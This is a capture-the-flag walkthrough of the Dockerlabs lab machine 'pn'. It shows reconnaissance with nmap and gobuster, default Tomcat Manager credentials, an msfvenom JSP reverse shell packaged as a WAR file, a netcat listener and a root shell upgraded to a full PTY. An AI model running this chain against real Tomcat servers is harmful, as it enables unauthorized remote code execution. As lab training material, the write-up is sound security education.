




# pn

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| pn | El Pingüino de Mario | Easy | dockerlabs |

**Summary:** The pn machine exposed a single service: Apache Tomcat 9.0.88 running on port 8080. A directory brute-force scan revealed the presence of the Tomcat Manager application at `/manager` and the Host Manager at `/host-manager`. The Host Manager's default landing page disclosed valid administrative credentials that had never been rotated from their factory defaults. Using those credentials to authenticate against the Tomcat Manager, the application's WAR file deployment functionality was abused: a malicious Java JSP reverse shell payload was crafted with `msfvenom`, packaged as a `.war` archive, and uploaded directly through the Manager's web interface. Deploying the archive registered the payload as a new web application context within Tomcat, and a single `curl` request to that context triggered the reverse shell callback. Because Tomcat was running as the root user inside the container, no further privilege escalation was required. The shell landed with full `uid=0(root)` rights, and a PTY was subsequently spawned and stabilised for interactive use.

---

## Reconnaissance

The machine was deployed via the standard dockerlabs script and assigned the address `172.17.0.2`.

**1.** Set shell variables and run a full-port versioned Nmap scan against the target:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 11:54 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.26 seconds
```

The scan revealed a single open port: **TCP 8080** hosting **Apache Tomcat 9.0.88**. With the entire attack surface confined to one application server, the engagement was focused entirely on enumerating and abusing Tomcat's administrative interfaces.

**2.** Open the root page of the Tomcat server to verify the deployment and confirm the version banner:



The default Tomcat landing page confirmed the version as 9.0.88. The page's navigation links pointed directly toward the Manager App and the Host Manager, both of which were prime targets for credential abuse.

---

## Directory Enumeration

**3.** Run a gobuster directory scan against port 8080 to map all accessible paths:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ gobuster dir -u $url:8080 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

Four paths of interest were confirmed: `/docs`, `/examples`, `/host-manager`, and `/manager`. All four returned HTTP 302 redirects, indicating they were active and accessible. The `/manager` path was the primary target because the Tomcat Manager application allows authenticated users to deploy arbitrary WAR files. Before attempting that, the `/host-manager` interface was checked first for credential exposure.

---

## Credential Discovery via the Host Manager

**4.** Navigate to the `/host-manager` interface to inspect its content and check for any disclosed credentials:



The Host Manager page disclosed a set of valid administrative credentials that had been left at their default values. These credentials were immediately applicable to the Tomcat Manager at `/manager`, since Tomcat's shared `tomcat-users.xml` configuration governs access to both administrative interfaces.

**5.** Use the recovered credentials to authenticate to the Tomcat Manager application:



Authentication succeeded. The Tomcat Manager dashboard was now fully accessible, presenting a list of currently deployed applications and, critically, a WAR file upload section at the bottom of the page. This upload facility is the standard vector for deploying malicious payloads on a Tomcat instance where manager credentials have been compromised.

---

## Payload Creation and Deployment

With authenticated access to the Manager's deployment interface, the next step was to generate a reverse shell payload packaged as a Java WAR file.

**6.** Use `msfvenom` to generate a JSP reverse shell payload targeting the attacker's IP on port 4444, formatted as a deployable WAR archive:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o pwn.war
Payload size: 1106 bytes
Final size of war file: 1106 bytes
Saved as: pwn.war
```

The `java/jsp_shell_reverse_tcp` payload was selected because it is natively executed by the Tomcat JVM when the deployed application is accessed, requiring no external interpreter or compiled binary on the target. The WAR file was saved as `pwn.war` and was ready for upload.

**7.** Upload `pwn.war` through the Tomcat Manager's WAR deployment form:



The upload was accepted and Tomcat registered `pwn.war` as a new deployed application context at `/pwn`. The application was in a running state, meaning the JSP payload inside would execute immediately upon its first HTTP request.

---

## Shell Execution and TTY Stabilisation

**8.** Set up a netcat listener on the attacker machine to receive the reverse shell callback:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**9.** Trigger the deployed payload by sending an HTTP request to the `/pwn/` context:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ curl $url:8080/pwn/
```

**10.** Receive the callback, confirm root identity, and upgrade the shell to a fully interactive PTY:

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43732
id
uid=0(root) gid=0(root) groups=0(root)
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@7214e57ef564:/# ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/pn]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

root@7214e57ef564:/# export SHELL=/bin/bash
root@7214e57ef564:/# export TERM=xterm-256color
root@7214e57ef564:/# cd
root@7214e57ef564:~# id ; whoami ; hostname
uid=0(root) gid=0(root) groups=0(root)
root
7214e57ef564
root@7214e57ef564:~# ls -la
total 24
drwx------ 1 root root 4096 Apr 19  2024 .
drwxr-xr-x 1 root root 4096 Mar 11 04:53 ..
-rw------- 1 root root  127 Apr 19  2024 .bash_history
-rw-r--r-- 1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x 3 root root 4096 Apr 19  2024 .local
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```

The reverse shell connected from the target on an ephemeral port. The very first command, `id`, confirmed `uid=0(root)`. Because the raw shell lacked interactivity, Python's `pty` module was used to spawn a proper bash PTY. The shell was then backgrounded with `Ctrl+Z`, the local terminal was placed into raw mode with `stty raw -echo`, and the job was resumed with `fg`. The environment variables `SHELL` and `TERM` were exported to complete the TTY stabilisation, yielding a fully functional interactive root session on container `7214e57ef564`. No privilege escalation step was necessary: Tomcat was already operating as root.

---

## Attack Chain Summary

1. **Reconnaissance**: A full TCP port scan identified a single open service, Apache Tomcat 9.0.88 on port 8080. The default landing page confirmed the version and linked to the Manager and Host Manager administrative interfaces.

2. **Vulnerability Discovery**: A gobuster scan against the Tomcat instance confirmed that both `/manager` and `/host-manager` were active. Navigating to the Host Manager interface exposed administrative credentials that had never been changed from their factory defaults, providing direct authenticated access to the application deployment functionality.

3. **Exploitation**: `msfvenom` was used to generate a Java JSP reverse shell payload (`java/jsp_shell_reverse_tcp`) packaged as a WAR archive. The file was uploaded through the Tomcat Manager's built-in WAR deployment form, registering it as a new application context at `/pwn`. A `curl` request to that context triggered the payload, which established a reverse TCP connection back to the attacker's netcat listener.

4. **Internal Enumeration**: Upon shell receipt, the `id` command immediately confirmed root-level access (`uid=0`). Because Tomcat was running as root inside the container, no further internal enumeration for privilege escalation paths was necessary.

5. **Privilege Escalation**: No escalation was required. The shell spawned directly as `uid=0(root)`. The session was upgraded to a fully interactive PTY using Python's `pty` module, raw terminal mode (`stty raw -echo`), and environment variable exports, yielding a stable and feature-complete root shell on container `7214e57ef564`.
